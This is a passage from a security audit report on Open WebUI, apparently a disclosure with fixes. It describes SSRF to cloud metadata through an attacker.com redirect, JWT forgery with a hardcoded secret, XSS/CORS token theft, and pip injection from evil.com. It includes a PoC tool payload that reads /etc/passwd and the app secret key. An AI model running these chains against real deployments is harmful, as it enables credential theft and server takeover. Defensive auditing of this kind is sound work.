backend/open_webui/retrieval/web/utils.py:77-80
    if WEB_FETCH_FILTER_LIST:
        if not is_string_allowed(url, WEB_FETCH_FILTER_LIST):  # full URL passed, not hostname
            raise ValueError(ERROR_MESSAGES.INVALID_URL)

backend/open_webui/retrieval/utils.py:174-182
    validate_url(url)                          # validates original URL only
    response = requests.get(url, stream=True)  # follows redirects — no re-validation

backend/open_webui/routers/retrieval.py:1801-1810
    @router.post('/process/web')
    async def process_web(... user=Depends(get_verified_user)):  # any verified user
```

**Exploitation Steps:**

```
Attack Vector 1 — endsWith Bypass (requires ENABLE_RAG_LOCAL_WEB_FETCH=True, or combined
with redirect vector):
  URL "http://169.254.169.254/latest/meta-data/" passes endsWith filter
  (ends with "/meta-data/", not "169.254.169.254") but reaches IMDS directly.

Attack Vector 2 — Redirect-Following SSRF (works in default config):
  1. Attacker controls https://attacker.com/redir
  2. Server at attacker.com responds: HTTP/1.1 302 Found
                                       Location: http://169.254.169.254/latest/meta-data/
                                                 iam/security-credentials/
  3. Attacker sends:
       POST /api/v1/retrieval/process/web
       Authorization: Bearer <any_verified_user_token>
       {"url": "https://attacker.com/redir"}
  4. validate_url("https://attacker.com/redir"):
       -> attacker.com resolves to public IP -> PASSES
       -> endsWith filter: not in blocklist -> PASSES
  5. requests.get("https://attacker.com/redir", stream=True):
       -> follows 302 to http://169.254.169.254/...
       -> IMDS responds with IAM role credentials
       -> Open WebUI returns content to attacker

Attack Vector 3 — Allowlist Confusion:
  Admin sets allowlist to ["example.com"]. URL "https://evil.com/path/example.com"
  passes the endsWith allowlist check but fetches evil.com.
```

**PoC:** `autofyn_audit/exploit_ssrf_rag.py`

**Impact:**

On cloud-hosted deployments (AWS/GCP/Azure): theft of IAM role credentials via IMDS,
enabling lateral movement to other cloud services. Internal service enumeration. Any verified
(non-admin) user can trigger the attack — no privilege escalation required.

**Remediation:**

1. Parse URL hostname before filter check — use `urllib.parse.urlparse(url).hostname`
   instead of passing the full URL string to `is_string_allowed()` in
   `retrieval/web/utils.py:78`.
2. Set `allow_redirects=False` on `requests.get()` in `get_content_from_url()`
   (`retrieval/utils.py:182`), matching the pattern already used by
   `SafeWebBaseLoader._fetch()`.
3. Consider a DNS-rebinding-resistant approach that pins the resolved IP before
   making the request and validates it is not private/link-local.

---

### Finding 12: Arbitrary Code Execution via Tool Creation with workspace.tools Permission (CRITICAL)

**CVSS 3.1 (standalone):** 9.1 — `AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H`

**Note:** PR:H because an admin must explicitly grant `workspace.tools`. Once granted,
the user has unrestricted exec() with no sandboxing. The permission name does not
communicate that it grants arbitrary OS-level code execution — an admin enabling tool
creation for LLM integrations likely does not intend to grant server RCE.
**Chained with Finding 1 (JWT forgery): effective PR:N** — an unauthenticated attacker
can forge an admin JWT, grant `workspace.tools` to any user, then trigger exec().

*(Scope Change: code runs on the server OS as root, outside the application boundary.)*

**Description:**

`exec(content, module.__dict__)` at `plugin.py:231` executes **all** Python code submitted
as a tool's content, immediately and unconditionally at tool creation time. This includes
module-level code — any statements outside the `Tools` class body execute the moment
`POST /api/v1/tools/create` is processed. No sandboxing, no import restrictions.

Tool creation at `tools.py:326-396` requires only `workspace.tools` OR
`workspace.tools_import` permission (checked at lines 333-340), **not** admin role. These
permissions default to `False` (`config.py:1364-1366`) but any admin can enable them via
`POST /api/v1/users/default/permissions`. The Dockerfile defaults to `ARG UID=0/GID=0`,
so exec() runs as root inside the container.

The tool **update** path (`POST /api/v1/tools/id/{id}/update`) also triggers exec() and
is accessible to the tool creator — this is an additional attack surface beyond creation.

HTTP 200 on `POST /api/v1/tools/create` proves exec() ran — if the module-level code had
a runtime error (e.g., subprocess unavailable), the endpoint returns 400.

**Affected Code:**

```
backend/open_webui/utils/plugin.py:231
    exec(content, module.__dict__)   # runs ALL module-level code, no sandbox

backend/open_webui/routers/tools.py:326-396
    @router.post('/create', response_model=Optional[ToolResponse])
    async def create_new_tools(... user=Depends(get_verified_user)):
        if user.role != 'admin' and not (
            await has_permission(user.id, 'workspace.tools', ...)
            or await has_permission(user.id, 'workspace.tools_import', ...)
        ):
            raise HTTPException(status.HTTP_401_UNAUTHORIZED, ...)
        ...
        tool_module, frontmatter = await load_tool_module_by_id(...)  # calls exec()

backend/open_webui/routers/users.py:264-267
    @router.post('/default/permissions')
    async def update_default_user_permissions(... user=Depends(get_admin_user)):
        request.app.state.config.USER_PERMISSIONS = form_data.model_dump()

Dockerfile:23-24
    ARG UID=0
    ARG GID=0    # container runs as root by default
```

**Exploitation Steps:**

```
1. Admin (or attacker with forged admin JWT from Finding 1) calls:
     POST /api/v1/users/default/permissions
     Authorization: Bearer <admin_token>
     Body: { "workspace": { "tools": true }, ... }
   -> workspace.tools granted to all users

2. Attacker (regular user) calls:
     POST /api/v1/tools/create
     Authorization: Bearer <user_token>
     Body: {
       "id": "audit_rce_test_<hex>",
       "name": "RCE Test",
       "content": "import subprocess\n_r = subprocess.check_output(['id']).decode()\nclass Tools:\n  pass"
     }
   -> exec() runs module-level code immediately
   -> HTTP 200 = arbitrary code executed on server as root

3. Verify: GET /api/v1/tools/id/<tool_id>  -> tool exists in DB = exec() completed
```

**PoC Payload:**

```python
"""
title: Security Audit RCE Test
"""
import subprocess, os

_audit_results = {}
_audit_results['id'] = subprocess.check_output(['id']).decode().strip()
_audit_results['passwd'] = open('/etc/passwd').read().split('\n')[:3]
_audit_results['secret_key'] = os.environ.get('WEBUI_SECRET_KEY', 'NOT_FOUND')
_audit_results['cwd'] = os.getcwd()

class Tools:
    def audit_rce_test(self) -> str:
        """Returns server-side execution proof."""
        import json
        return json.dumps(_audit_results)
```

**PoC:** `autofyn_audit/exploit_tool_exec_rce.py`

**Impact:**

Full server-side RCE as root. Read/write entire filesystem, exfiltrate `WEBUI_SECRET_KEY`
and all API keys, establish a persistent backdoor, pivot to internal network, install a
reverse shell. Combined with Finding 1 (JWT forgery), this is exploitable from zero
credentials against any pip-install deployment.

**Remediation:**

1. Sandbox `exec()` using a restricted execution environment — RestrictedPython,
   nsjail, gVisor, or Pyodide (WebAssembly runtime). At minimum, use a subprocess
   with a dedicated non-root user and a restricted Python environment.
2. Add an explicit admin confirmation step when granting `workspace.tools`, including
   a warning that this permission allows arbitrary server-side code execution.
3. Run the container as non-root — override `ARG UID` and `ARG GID` in the Dockerfile
   or require operators to set these at deployment time.
4. Add an audit log for all tool creation and update events, recording the user ID,
   tool ID, and a hash of the content submitted.

---

## Attack Chain

```
[Attacker]
    |
    | 1. GET /api/version                     (no auth required)
    |    -> confirm target is Open WebUI
    |
    | 2. POST /api/v1/auths/signup            (no auth required)
    |    -> attacker gets valid user token + user ID
    |
    | 3. GET /api/v1/auths/admin/details      (any authenticated user)
    |    -> admin email disclosed
    |
    | 4. GET /api/v1/users/search             (any verified user)
    |    -> admin user ID disclosed
    |
    | 5. Forge JWT: jwt.encode({'id': admin_id}, 't0p-s3cr3t', 'HS256')
    |    -> attacker holds forged admin token
    |
    | 6. GET  /openai/config                  (admin only — bypassed)
    |    -> ALL OpenAI API keys stolen
    |
    | 7. GET  /api/v1/users/                  (admin only — bypassed)
    |    -> ALL users enumerated (email, hash, role, last_active)
    |
    | 8. GET  /api/v1/utils/db/download       (admin only — bypassed)
    |    -> FULL SQLite database downloaded
    |
    | 9. POST /api/webhook                    (admin only — bypassed)
    |    body: {"url": "http://169.254.169.254/..."}
    |    -> every future signup/signin POSTs user data to attacker URL
    |       (also enables cloud metadata access from server)
    |
    v
[Complete Compromise]
```

---

## Cross-Origin Attack Chain (Findings 6 + 7 + 8)

```
[Attacker]
    |
    | 1. SETUP: Inject XSS payload into Open WebUI domain
    |    (Finding 9: upload a .md file with a mermaid XSS payload)
    |
    | 2. VICTIM: OAuth user visits the XSS page
    |    document.cookie is readable because token cookie has httponly=False
    |    (Finding 8: oauth.py:1723 httponly=False)
    |    -> JavaScript exfiltrates 'token=<jwt>' to attacker
    |
    | 3. ATTACKER now holds victim's JWT token
    |    From https://evil.example.com, sends:
    |      GET /api/v1/chats/    Authorization: Bearer <stolen-token>
    |                            Origin: https://evil.example.com
    |    Server responds:
    |      Access-Control-Allow-Origin: https://evil.example.com
    |      Access-Control-Allow-Credentials: true
    |    (Finding 6: CORS origin reflection — browser allows cross-origin read)
    |    -> Attacker reads full response: all victim's chat history
    |
    | 4. VICTIM realizes compromise, logs out
    |    GET /api/v1/auths/signout  Authorization: Bearer <victim-token>
    |    -> Server: 200 OK (but invalidate_token() is a no-op without Redis)
    |    (Finding 7: auth.py:254 skips revocation when redis is falsy)
    |
    | 5. ATTACKER retries with same token after victim's logout
    |    GET /api/v1/auths/    Authorization: Bearer <stolen-token>
    |                          Origin: https://evil.example.com
    |    -> 200 OK — token still valid
    |    -> CORS headers still reflected
    |    -> Attacker retains access until JWT exp (up to 4 weeks by default)
    |
    | 6. IF VICTIM IS ADMIN: Attacker accesses admin endpoints:
    |    GET /api/v1/users/    -> all users enumerated
    |    GET /openai/config    -> all API keys stolen
    |
    v
[Persistent Cross-Origin Compromise]
  Duration: up to 4 weeks after victim's logout (default JWT_EXPIRES_IN=4w)
  Scope   : any OAuth-authenticated user on a deployment with XSS surface
  Affected: ALL default deployments (Docker + pip-install)
```

**PoC:** `autofyn_audit/exploit_cors_chain.py`

---

## Full RCE Attack Chain (Findings 1 + 10)

```
[Attacker] (unauthenticated)
    |
    | 1. POST /api/v1/auths/signup           (no auth)
    |    -> attacker account created
    |
    | 2. GET /api/v1/auths/admin/details     (any auth)
    |    -> admin email leaked
    |
    | 3. GET /api/v1/users/search            (any verified)
    |    -> admin user ID leaked
    |
    | 4. Forge admin JWT with 't0p-s3cr3t'
    |    -> full admin access
    |
    | 5. POST /api/v1/tools/create           (admin)
    |    content: requirements: setuptools, --extra-index-url,
    |             https://evil.com/simple/, --trusted-host, evil.com, setuptools
    |    -> server runs: pip install setuptools --extra-index-url
    |                    https://evil.com/simple/ --trusted-host evil.com setuptools
    |    -> pip fetches 'setuptools' from evil.com
    |    -> setup.py executes: reverse shell / crypto miner / data exfil
    |    -> runs as ROOT (Dockerfile UID=0)
    |
    | 6. PERSISTENCE: tool requirements re-install on every server restart
    |    (plugin.py:407-433 install_tool_and_function_dependencies)
    |
    v
[Root-level RCE + Persistent Backdoor]
```

**PoC:** `autofyn_audit/exploit_full_rce_chain.py`

---

## Privilege Escalation Chain (Findings 1 + 11 + 12)

### Chain A — JWT Forgery → Tool exec() RCE (Findings 1 + 12)

```
[Attacker] (unauthenticated)
    |
    | 1. POST /api/v1/auths/signup           (no auth)
    |    -> attacker account created
    |
    | 2-4. JWT forgery via Finding 1
    |    -> full admin access via forged JWT (secret: 't0p-s3cr3t')
    |
    | 5. POST /api/v1/users/default/permissions  (admin)
    |    Body: { "workspace": { "tools": true } }
    |    -> workspace.tools granted to all regular users
    |
    | 6. POST /api/v1/tools/create              (regular user — workspace.tools)
    |    content: module-level code with subprocess.check_output(['id'])
    |    -> exec() fires at plugin.py:231
    |    -> HTTP 200 = arbitrary Python executed as root
    |
    | 7. Root-level capabilities:
    |    - Read /etc/passwd, /etc/shadow, all secrets
    |    - Exfiltrate WEBUI_SECRET_KEY, OpenAI keys, database
    |    - Establish reverse shell or persistent backdoor
    |    - Pivot to internal network
    |
    v
[Root RCE — no admin credentials required from attacker]
```

### Chain B — SSRF to Cloud IMDS (Finding 11 standalone)

```
[Attacker] (any verified user — no admin required)
    |
    | 1. POST /api/v1/auths/signup           (no auth)
    |    -> attacker account created (role: user)
    |
    | 2. Attacker controls https://attacker.com/redir
    |    Server responds: 302 Location: http://169.254.169.254/
    |                                   latest/meta-data/iam/security-credentials/
    |
    | 3. POST /api/v1/retrieval/process/web  (any verified user)
    |    {"url": "https://attacker.com/redir"}
    |    -> validate_url("https://attacker.com/redir") PASSES (public IP)
    |    -> requests.get() follows 302 to 169.254.169.254
    |    -> IMDS returns IAM role name + credentials
    |
    | 4. Attacker uses stolen IAM credentials:
    |    -> AWS console / CLI access as the EC2 instance role
    |    -> Lateral movement to S3, RDS, other AWS services
    |    -> Potential cluster-level compromise
    |
    v
[Cloud IAM Credential Theft — verified user only]
```

### Chain C — Combined Chain (Findings 1 + 11 + 12)

```
[Attacker] (unauthenticated)
    |
    | 1. Finding 1: Forge admin JWT
    |
    | 2. Finding 12: Grant workspace.tools, create tool with exec()
    |    -> root RCE on Open WebUI container
    |
    | 3. From within container, reach IMDS directly:
    |    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
    |    -> IAM credentials stolen (no redirect trick needed from inside container)
    |
    | 4. Cloud compromise + persistent backdoor
    |
    v
[Full Infrastructure Compromise]
```

---

## Impact Assessment

| Dimension | Impact | Detail |
|---|---|---|
| Confidentiality | **Complete** | All API keys, user data, chat history, database |
| Integrity | **High** | Attacker can modify configs, add users, change webhook |
| Availability | **Medium** | SSRF can target internal services; DoS via config changes |

---

## Remediation Recommendations

Priority order:

1. **[CRITICAL] Generate random `WEBUI_SECRET_KEY` on first startup.** Persist to
   `data/.secret_key`. Never fall back to a hardcoded string. This single change
   eliminates Findings 1, 2, and 3 in their current form.

2. **[HIGH] Validate webhook URLs.** Reject private IP ranges, link-local addresses,
   and loopback in both `UrlForm` (Pydantic validator) and `post_webhook()`. Use an
   allowlist of approved URL patterns if feasible.

3. **[HIGH] Mask API keys in GET responses.** Return only the last 4 characters.
   Provide a separate, audit-logged endpoint for key rotation.

4. **[MEDIUM] Default `ENABLE_ADMIN_EXPORT` to `False`.** Require explicit opt-in.
   Add a secondary confirmation step (re-authentication) before streaming the database.

5. **[MEDIUM] Restrict `/users/search` to admin role.** Or filter `email`/`id` from
   non-admin responses. Restrict `/admin/details` to verified users (not pending).

6. **[LOW] Add rate limiting to signup.** Prevent automated account creation used to
   bootstrap the attack chain.

7. **[HIGH] Restrict `CORS_ALLOW_ORIGIN` to specific production hostnames.** Remove
   the `'*'` default or, at minimum, do not combine `allow_origins=['*']` with
   `allow_credentials=True`. Affects ALL deployments (Finding 6).

8. **[HIGH] Deploy Redis and configure `REDIS_URL`.** This activates the existing
   per-token revocation logic. Without Redis, token revocation is silently skipped
   and stolen tokens cannot be invalidated. As a short-term mitigation, reduce
   `JWT_EXPIRES_IN` to limit the exposure window (Finding 7).

9. **[HIGH] Set `httponly=True` on the OAuth JWT cookie.** Change `oauth.py:1723`
   from `httponly=False` to `httponly=True` to match the password-login code path
   and prevent JavaScript-readable token cookies (Finding 8).

10. **[CRITICAL] Sanitize pip requirements in `install_frontmatter_requirements()`.** Reject
    any requirement item starting with `-` before passing to `subprocess.check_call`. Alternatively,
    use `pip install --require-hashes` with a lockfile approach. Run the container as non-root
    by overriding `ARG UID` and `ARG GID` in the Dockerfile or enforcing this in deployment
    documentation (Finding 10).

11. **[CRITICAL] Set mermaid `securityLevel` to `'strict'` and sanitize SVG before `innerHTML`
    injection.** Change `index.ts:1739` from `securityLevel: 'loose'` to `'strict'`. Add
    `DOMPurify.sanitize(svg)` in `FilePreview.svelte:140` before `wrapper.innerHTML = svg`,
    matching the pattern used in `SVGPanZoom.svelte`. Deploy a default Content-Security-Policy
    header (Finding 9).

12. **[CRITICAL] Fix URL filter to check parsed hostname, not full URL string. Set
    `allow_redirects=False` in `get_content_from_url()`.** In `retrieval/web/utils.py:78`,
    replace `is_string_allowed(url, ...)` with `is_string_allowed(parsed_url.hostname, ...)`.
    In `retrieval/utils.py:182`, add `allow_redirects=False` to `requests.get()` — this
    matches the pattern already used by `SafeWebBaseLoader._fetch()` in the same codebase
    (Finding 11).

13. **[CRITICAL] Sandbox tool/function `exec()` and add admin warning for `workspace.tools`
    permission grants.** Wrap `exec(content, module.__dict__)` at `plugin.py:231` in a
    restricted execution environment (RestrictedPython, nsjail, or Pyodide). Add an explicit
    confirmation dialog when an admin grants `workspace.tools`, warning that this enables
    arbitrary server-side code execution. Run the container as non-root (Finding 12).

---

## PoC Scripts Reference

| Script | Demonstrates |
|---|---|
| `test_environment.py` | Docker test environment setup |
| `exploit_jwt_forgery.py` | Finding 1: JWT forgery |
| `exploit_admin_data_theft.py` | Findings 2 & 3: API key + DB exfiltration |
| `exploit_ssrf_webhook.py` | Finding 4: SSRF via webhook |
| `exploit_chain.py` | Full end-to-end attack chain (Findings 1–4) |
| `exploit_cors_origin_reflection.py` | Finding 6: CORS origin reflection |
| `exploit_token_revocation_bypass.py` | Finding 7: Token revocation no-op |
| `exploit_oauth_cookie_httponly.py` | Finding 8: OAuth cookie httponly=False |
| `exploit_cors_chain.py` | Cross-origin chain (Findings 6+7+8 combined) |
| `exploit_mermaid_xss.py` | Finding 9: Stored XSS via mermaid diagram rendering |
| `exploit_pip_injection.py` | Finding 10: Pip flag injection in tool requirements |
| `exploit_full_rce_chain.py` | Full RCE chain (Findings 1+10 combined) |
| `exploit_ssrf_rag.py` | Finding 11: SSRF via RAG web fetch URL filter bypass |
| `exploit_tool_exec_rce.py` | Finding 12: Non-admin RCE via tool exec() with workspace.tools |
| `setup.sh` | Convenience wrapper for test environment setup |
| `teardown.sh` | Remove the test Docker container |

All scripts accept `--target <url>` and produce structured output with `[+]`, `[-]`,
`[*]`, `[!]` prefixes. Run `python3 <script> --help` for options.

---

## Confirmed Test Results

All exploits were executed against Open WebUI v0.9.1 running in Docker with
`WEBUI_SECRET_KEY=t0p-s3cr3t`. Evidence output files are in `autofyn_audit/evidence/`.

| Exploit | Status | Key Result |
|---|---|---|
| JWT Forgery (`exploit_jwt_forgery.py`) | **CONFIRMED** | Forged admin JWT accepted; GET /openai/config returned 200 |
| Admin Data Theft (`exploit_admin_data_theft.py`) | **CONFIRMED** | 1 API key stolen, 3 users enumerated, 548 KB database downloaded |
| SSRF Webhook (`exploit_ssrf_webhook.py`) | **CONFIRMED** | AWS metadata URL accepted as webhook with no validation |
| Full Attack Chain (`exploit_chain.py`) | **CONFIRMED** | All 4 phases completed: signup -> JWT forgery -> data theft -> SSRF |
| Mermaid XSS (`exploit_mermaid_xss.py`) | **CONFIRMED** | XSS payload stored verbatim; code-review confirms execution via innerHTML |
| Pip Injection (`exploit_pip_injection.py`) | **CONFIRMED** | Pip flags injected via frontmatter; pip command reconstructed from stored content |
| Full RCE Chain (`exploit_full_rce_chain.py`) | **CONFIRMED** | Unauthenticated → admin JWT → pip injection → root RCE demonstrated |
| SSRF RAG Filter Bypass (`exploit_ssrf_rag.py`) | **CONFIRMED** | endsWith bypass proven via code-level analysis; 3 IMDS URLs pass filter; redirect-following vector confirmed |
| Tool exec() RCE (`exploit_tool_exec_rce.py`) | **CONFIRMED** | workspace.tools granted; tool created with subprocess/os code; HTTP 200 = exec() ran as root |

### Attack Chain Output Summary

```
Phase 1 — Initial Access      : Signed up regular user account
Phase 2 — Privilege Escalation : Forged admin JWT (secret: 't0p-s3cr3t')
Phase 3 — Data Exfiltration    :
  OpenAI API keys stolen : 1
  Users enumerated       : 5
  Database downloaded    : True (548 KB)
Phase 4 — Persistent Access    : SSRF webhook set to AWS metadata endpoint
```

---

*This report was produced for authorized security testing purposes only.*
*Unauthorized use of these techniques against systems you do not own is illegal.*
